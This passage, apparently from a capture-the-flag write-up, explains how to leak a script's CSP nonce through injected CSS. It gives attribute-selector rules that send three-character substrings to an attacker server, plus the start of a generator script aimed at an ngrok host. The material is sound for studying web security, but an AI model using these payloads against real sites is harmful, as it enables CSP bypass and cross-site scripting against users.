 Due to the large number of possible nonces, the fastest way is to steal them character by character. However, this approach requires using `@import` with a blocking method. In this challenge, external links are limited to unpkg, which only hosts static files and does not support this method.

Another method I recently came across but haven't updated in my article yet is: [Code Vulnerabilities Put Proton Mails at Risk](https://www.sonarsource.com/blog/code-vulnerabilities-leak-emails-in-proton-mail/#splitting-the-url-into-smaller-chunks)

This approach is quite clever, dividing a piece of text into many small substrings, each containing three characters. We generate all permutations of three characters from a-zA-Z0-9, like this:

``` css
script[nonce*="aaa"]{--aaa:url("https://server/leak?q=aaa")}
script[nonce*="aab"]{--aab:url("https://server/leak?q=aab")}
...
script[nonce*="ZZZ"]{--ZZZ:url("https://server/leak?q=ZZZ")}

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
  )
```

Using `-webkit-cross-fade` is for loading multiple images. You can refer to the article posted above for more details.

For example, if the nonce is abc123, the server will receive:

1. abc
2. bc1
3. c12
4. 123

These four strings may have different orders, but as long as they are combined according to the rules, we can obtain abc123. Of course, there may be multiple combinations or uncertain beginnings and endings, but we can treat them as edge cases and try again.

By stealing the nonce in this way, for this problem, there will be 36^3 = 46656 rules, which is an acceptable length.

### Generating CSS

Coincidentally, I encountered a similar situation at work before, so I already have a script ready, just need to make some modifications.

If we apply all the rules to the same element in this problem, it seems that Chrome will crash due to too many rules (at least that's what happened on my local machine). So I divided the rules into three parts and applied them to three different elements.

``` js
const fs = require('fs')
let chars = 'abcdefghijklmnopqrstuvwxyz0123456789'
const host = 'https://ip.ngrok-free.app'

let arr = []
for(let a of chars) {
    for(let b of chars) {
        for(let c of chars) {
            let str = a+b+c;
            arr.push(str)
        }
    }
}

```